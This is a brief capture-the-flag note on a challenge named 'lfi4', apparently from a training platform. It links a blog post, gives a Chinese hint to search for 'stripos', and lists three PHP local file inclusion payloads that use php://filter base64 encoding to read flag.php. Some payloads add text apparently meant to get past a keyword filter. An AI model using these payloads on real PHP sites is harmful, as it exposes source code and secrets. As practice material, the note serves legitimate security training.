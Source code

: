 # lfi4

https://blog.csdn.net/weixin_54902210/article/details/121404058

ctrl + f 搜索 stripos

`http://train2024.hitctf.cn:26232/?f=php://filter/convert.base64.encode | ctfshow/resource=flag.php`

`?f=php://filter/convert.base64.encode | ctfshow/resource=flag.php`

`http://train2024.hitctf.cn:26232/?f=php://filter/convert.base64.encode/resource=flag.php | lilaaaaaaaaaac`
